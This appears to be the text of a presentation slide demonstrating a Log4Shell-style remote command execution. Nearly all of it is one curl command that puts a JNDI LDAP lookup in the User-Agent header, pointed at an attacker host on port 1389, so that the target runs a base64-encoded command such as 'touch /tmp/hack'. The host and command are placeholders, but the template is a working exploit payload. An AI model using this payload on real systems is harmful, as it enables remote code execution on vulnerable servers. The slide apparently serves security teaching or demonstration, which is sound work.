

# Execute command line payload
attackhost: x.x.x.x

curl -H 'User-Agent:
${jndi:ldap://attackhost:1389/Basic/Command/Base64/xxx}’ localhost:9000

xxx – base64 encoded command to execute
Np. touch /tmp/hack